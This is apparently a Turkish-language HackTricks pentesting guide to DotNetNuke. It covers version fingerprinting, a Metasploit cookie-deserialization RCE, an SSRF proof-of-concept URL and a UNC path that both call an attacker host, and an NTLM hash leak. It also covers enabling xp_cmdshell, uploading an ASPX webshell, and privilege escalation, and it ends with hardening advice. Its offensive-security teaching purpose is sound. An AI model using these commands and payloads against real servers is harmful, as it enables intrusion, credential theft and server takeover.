 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

DNN'ye **yönetici** olarak girdiğinizde **RCE** elde etmek kolaydır, ancak son birkaç yılda bir dizi *kimlik doğrulaması yapılmamış* ve *kimlik doğrulaması sonrası* teknik yayınlanmıştır. Aşağıdaki kılavuz, hem saldırgan hem de savunma çalışmaları için en kullanışlı temel bileşenleri toplar.

---
## Versiyon & Ortam Sayımı

* *X-DNN* HTTP yanıt başlığını kontrol edin – genellikle tam platform sürümünü açıklar.
* Kurulum sihirbazı, `/Install/Install.aspx?mode=install` içinde sürümü sızdırır (çok eski kurulumlarda erişilebilir).
* `/API/PersonaBar/GetStatus` (9.x) düşük ayrıcalıklı kullanıcılar için `"dnnVersion"` içeren bir JSON nesnesi döner.
* Canlı bir örnekte göreceğiniz tipik çerezler:
* `.DOTNETNUKE` – ASP.NET formları kimlik doğrulama bileti.
* `DNNPersonalization` – XML/serileştirilmiş kullanıcı profili verilerini içerir (eski sürümler – aşağıdaki RCE'ye bakın).

---
## Kimlik Doğrulaması Yapılmamış Sömürü

### 1. Çerez Serileştirme RCE  (CVE-2017-9822 & takipleri)
*Etkilenen sürümler ≤ 9.3.0-RC*

`DNNPersonalization`, yerleşik 404 işleyicisi etkinleştirildiğinde her istekte serileştirilir. Bu nedenle, hazırlanmış XML, keyfi gadget zincirlerine ve kod yürütmeye yol açabilir.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Modül, yamanmış ancak hala savunmasız olan sürümler için doğru yolu otomatik olarak seçer (CVE-2018-15811/15812/18325/18326). Sömürü, 7.x–9.1.x sürümlerinde **kimlik doğrulama olmadan** ve 9.2.x+ sürümlerinde *doğrulanmış* düşük ayrıcalıklı bir hesapla çalışır.

### 2. Sunucu Tarafı İstek Sahteciliği (CVE-2025-32372)
*Etkilenen sürümler < 9.13.8  –  Yamanın yayımlanma tarihi Nisan 2025*

Eski `DnnImageHandler` düzeltmesinin bir atlatması, bir saldırganın sunucuyu **keyfi GET istekleri** yapmaya zorlamasını sağlar (yarı-kör SSRF). Pratik etkiler:

* Bulut dağıtımlarında iç port taraması / meta veri hizmeti keşfi.
* Aksi takdirde İnternet'ten güvenlik duvarıyla korunmuş olan ev sahiplerine ulaşma.

Kanıt konsepti (değiştir `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
İstek arka planda tetiklenir; geri çağırmalar için dinleyicinizi izleyin.

### 3. NTLM Hash Sızıntısı UNC Yönlendirmesi ile (CVE-2025-52488)
*Etkilenen sürümler 6.0.0 – 9.x (< 10.0.1)*

Özel olarak hazırlanmış içerik, DNN'nin `\\attacker\share\img.png` gibi bir **UNC yolu** kullanarak bir kaynağı almaya çalışmasına neden olabilir. Windows, NTLM müzakeresini memnuniyetle gerçekleştirir ve sunucu-hesap hash'lerini saldırgana sızdırır. **10.0.1** sürümüne yükseltin veya güvenlik duvarında dışa dönük SMB'yi devre dışı bırakın.

### 4. IP Filtre Atlatma (CVE-2025-52487)
Yönetici portalı koruması için *Host/IP Filtreleri*'ne güvenen yöneticiler, **10.0.1** sürümünden önceki sürümlerin, ters proxy senaryosunda `X-Forwarded-For`'ı manipüle ederek atlatılabileceğini bilmelidir.

---
## Kimlik Doğrulama Sonrası RCE

### SQL konsolu aracılığıyla
**`Ayarlar → SQL`** altında, site veritabanına karşı sorgu çalıştırmaya olanak tanıyan yerleşik bir sorgu penceresi bulunmaktadır. Microsoft SQL Server'da **`xp_cmdshell`**'i etkinleştirip komutlar başlatabilirsiniz:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### ASPX webshell yükleme ile
1. **`Ayarlar → Güvenlik → Daha Fazla → Daha Fazla Güvenlik Ayarları`** kısmına gidin.
2. **İzin Verilen Dosya Uzantıları** kısmına `aspx` (veya `asp`) ekleyin ve **Kaydet** butonuna tıklayın.
3. **`/admin/file-management`** kısmına gidin ve `shell.aspx` dosyasını yükleyin.
4. Bunu **`/Portals/0/shell.aspx`** adresinde tetikleyin.

---
## Windows'ta Yetki Yükseltme
Kod yürütme **IIS AppPool\<Site>** olarak gerçekleştirildiğinde, yaygın Windows yetki yükseltme teknikleri geçerlidir. Eğer sistem savunmasızsa, şunları kullanabilirsiniz:

* **PrintSpoofer** / **SpoolFool** ile *SeImpersonatePrivilege*'i kötüye kullanın.
* *Service Accounts*'tan kaçmak için **Juicy/Sharp Potatoes** kullanın.

---
## Güçlendirme Önerileri (Mavi Takım)

* En az **9.13.9** sürümüne (SSRF atlatmasını düzeltir) veya tercihen **10.0.1** sürümüne yükseltin (IP filtreleme ve NTLM sorunları).
* Kurulumdan sonra kalan **`InstallWizard.aspx*`** dosyalarını kaldırın.
* Çıkış yapan SMB'yi (portlar 445/139) devre dışı bırakın.
* DNN içinde değil, kenar proxy'sinde güçlü *Host Filtreleri* uygulayın.
* Kullanılmıyorsa `/API/RemoteContentProxy` erişimini engelleyin.

## Referanslar

* Metasploit `dnn_cookie_deserialization_rce` modül belgeleri – pratik kimlik doğrulamasız RCE detayları (GitHub).
* GitHub Güvenlik Danışmanlığı GHSA-3f7v-qx94-666m – 2025 SSRF atlatma ve yamanma bilgileri.
{{#include ../../banners/hacktricks-training.md}}
